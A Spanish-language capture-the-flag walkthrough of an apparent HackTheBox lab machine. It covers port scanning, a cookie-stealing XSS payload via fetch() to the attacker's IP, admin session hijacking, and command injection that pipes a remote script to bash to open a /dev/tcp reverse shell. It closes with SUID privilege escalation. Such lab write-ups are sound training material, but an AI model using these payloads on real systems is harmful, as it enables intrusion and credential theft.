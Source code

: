 
Primero realzaremos un escaneo de puertos con nmap.

`sudo nmap -sV -sC --min-rate 7000 -p- -Pn 10.10.11.8 -oN escaneo`

<img src="Pasted image 20240424100119.png">

Seguidamente al ver que esconde el puerto 5000, para ello introducimos la ip seguida de dos puntos con el puerto.
<img src="Pasted image 20240424100249.png">

Vemos que esconde una web. Para ello haremos un fuzzing con dirsearch.

`dirsearch -u http://10.10.11.8:5000/`

<img src="Pasted image 20240424100701.png">

Entraremos a ver que esconde la pagina support.
<img src="Pasted image 20240424100826.png">

Veamos que tiene un formulario, veremos que hace si se lo rellenamos todo.
<img src="Pasted image 20240424101018.png">

Que hay un overflow, cuando sucede esto, podemos atacarlo con XSS. Para ello abriremos burpsuite para interceptar la petición al servidor.
<img src="Pasted image 20240424101405.png">

Una vez no tenemos, volveremos a nuestra consola, y abriremos un servidor python para que nos mande la cookie de sesión de administrador a nuestra máquina.

`python3 -m http.server 80`

<img src="Pasted image 20240424101532.png">

Una vez estamos a la escucha, volveremos al burpsuite y pondremos la siguinte sintaxis de JavsScript en "User Agent" y en el el mensaje de abajo. 

`<img src=x onerror=fetch('http://10.10.14.68/?c='+document.cookie);>`

<img src="Pasted image 20240424101911.png">

Lo mandaremos al repeter y lo enviaremos al rervidor, si todo va bien, en menos de un minuto nos tiene que dar la cookie de sesión en el servidor python.
<img src="Pasted image 20240424102247.png">
Al ver este mensaje, es buena señal, así que iremos la consola y esperaremos un minuto.
<img src="Pasted image 20240424102342.png">

Nos guardaremos la cookie para luego poder suplantarla. Cerraremos el burpsuite y volveremos a la paguina inicial de la web. Retomando el fuzzing de antes, a parte de suport, teniamos una página llamada dashboard, entraremos en ella.
<img src="Pasted image 20240424102646.png">

Nos sale que no estamos autorizados, pero no hay problema porque tenemos la cookie de administrador, asi que solo nos queda suplantarla. Para ello iremos a inspeccionar --> storage.
<img src="Pasted image 20240424102839.png">

Alli pegamos la nueva cookie en la que hay, de tal forma que se sobreescriba.
<img src="Pasted image 20240424102927.png">

Reiniciaremos la página. Y veremos la página al 100%, ahora intentaremos poder conseguir la shell del servidor, para ello vamos a interceptar la peticion con burpsuite.
<img src="Pasted image 20240424103730.png">

Irmos al la consola y crearemos un harchivo html con contenido bash para poder ejecutar una reverse shell en el servidor.

`#!/bin/bash`

`sh -i >& /dev/tcp/10.10.14.68/4444 0>&1`

<img src="Pasted image 20240424103933.png">

Una vez lo tengamos, volveremos a encender un servidor python para poder hostear el archivo.
<img src="Pasted image 20240424104216.png">

Abriremos otro terminal y nos pondremos a la escucha con netcat en el puerto que hemos elegido.

`nc -lvnp 4444`

<img src="Pasted image 20240424104342.png">

Una vez lo tenemos, iremos al burpsuite y en date pondremos un ";" y pondremos el siguiente comando , lo mandaremos al repeter y lo enviaremos, con esto tendremos la shell.

`curl 10.10.14.68/index.html | bash`

<img src="Pasted image 20240424104600.png">
<img src="Pasted image 20240424104625.png">
Si al darle a enviar el botón send se nos pone de color gris, sera buena señal porque tendremos la shell.
<img src="Pasted image 20240424104714.png">
En el dolar escribiremos el siguiente comando para ver la ruta.

`script /dev/null -c bash`

<img src="Pasted image 20240424104823.png">

Con esto ya estaremos dentro, ahora buscaremos la flag de usuario.
<img src="Pasted image 20240424105032.png">

Una vez la tenemos, solo nos quedará escalar privilegios, para ello vermos que binarios tienen permiso de root. 

`sudo -l`

<img src="Pasted image 20240424105222.png">

Vemos que tiene este binario con permisos de administrador. Miraremos el contenido del binario para ver si obtenemos una pista.

`strings /usr/bin/syscheck`

<img src="Pasted image 20240424105522.png">

Vemos que tiene un archivo bash, le añadiremos el script `chmod u+s /bin/bash` dentro de el archivo para poder ejecutar lo que queramos. Para ello haremos:

`echo "chmod u+s /bin/bash">initdb.sh`

<img src="Pasted image 20240424110607.png">

Seguidamente, le daremos permisos al archivo bash y lo ejecutaremos.
<img src="Pasted image 20240424110733.png">

Finalmente lo ejecutaremos.

`./initdb.sh`

<img src="Pasted image 20240424111034.png">
Finalmente ejecutaremos un comando mas para tener acceso root.

`/bin/bash -p`

<img src="Pasted image 20240424111222.png">
